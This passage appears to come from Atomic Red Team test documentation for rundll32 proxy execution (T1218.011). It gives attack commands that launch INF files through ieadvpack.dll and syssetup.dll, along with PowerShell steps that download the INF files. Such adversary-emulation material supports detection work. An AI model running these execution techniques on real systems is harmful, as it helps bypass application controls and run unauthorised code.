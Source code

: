 
```cmd
rundll32.exe ieadvpack.dll,LaunchINFSection #{inf_to_execute},DefaultInstall_SingleUser,1,
```




#### Dependencies:  Run with `powershell`!
##### Description: Inf file must exist on disk at specified location (#{inf_to_execute})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_to_execute}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_to_execute}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.011/src/T1218.011.inf" -OutFile "#{inf_to_execute}"
```




<br/>
<br/>

## Atomic Test #5 - Rundll32 syssetup.dll Execution
Test execution of a command using rundll32.exe with syssetup.dll. Upon execution, a window saying "installation failed" will be opened

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Syssetup.yml

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1218.011&#92;src&#92;T1218.011_DefaultInstall.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32.exe syssetup.dll,SetupInfObjectInstallAction DefaultInstall 128 .\#{inf_to_execute}
```




#### Dependencies:  Run with `powershell`!
##### Description: Inf file must exist on disk at specified location (#{inf_to_execute})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_to_execute}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_to_execute}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.011/src/T1218.011_DefaultInstall.inf" -OutFile "#{inf_to_execute}"
```

